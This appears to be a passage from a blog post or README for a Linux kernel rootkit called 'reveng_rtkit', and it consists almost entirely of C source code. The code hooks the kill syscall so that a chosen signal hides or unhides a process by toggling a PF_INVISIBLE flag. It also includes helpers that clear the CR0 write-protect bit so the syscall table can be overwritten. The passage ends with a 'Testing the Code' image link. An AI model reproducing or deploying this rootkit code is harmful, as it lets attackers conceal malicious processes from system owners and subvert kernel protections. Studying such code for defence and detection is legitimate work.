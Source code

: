 ```c
    }

    static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
    {
      /* Dependent registers:
      * rax: contains syscall ids (normally) = 0x3e
      * rdi: which contains the file descriptor (normally) = pid_t pid (in this case)
      * rsi: which contains the passed arguments (normally) = int sig
      */
      pid_t pid = (pid_t) pt_regs->di;
      int sig = (int) pt_regs->si;

      struct task_struct *task;
      switch (sig)
      {
        case HIDE_UNHIDE_PROCESS:
          if ((task = find_task(pid)) == NULL)
            return -ESRCH;
          task->flags ^= PF_INVISIBLE;
          printk(KERN_INFO "[*] reveng_rtkit: Hiding/unhiding pid: %d \n", pid);
          break;
        default:
          return orig_kill(pt_regs);
      }
      return 0;
    }


    static inline void write_cr0_forced(unsigned long val)
    {
      unsigned long __force_order;

      asm volatile("mov %0, %%cr0" : "+r"(val), "+m"(__force_order));
    }

    static inline void protect_memory(void)
    {
      printk(KERN_INFO "[*] reveng_rtkit: (Memory protected): Regainig normal memory protection\n");
      write_cr0_forced(cr0);	// Setting WP flag to 1 => read-only
    }

    static inline void unprotect_memory(void)
    {
      pr_info("[*] reveng_rtkit: (Memory unprotected): Ready for editing Syscall Table");
      write_cr0_forced(cr0 & ~0x00010000);	// Setting WP flag to 0 => writable
    }
```
Testing the Code:
![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog14.png?raw=true)
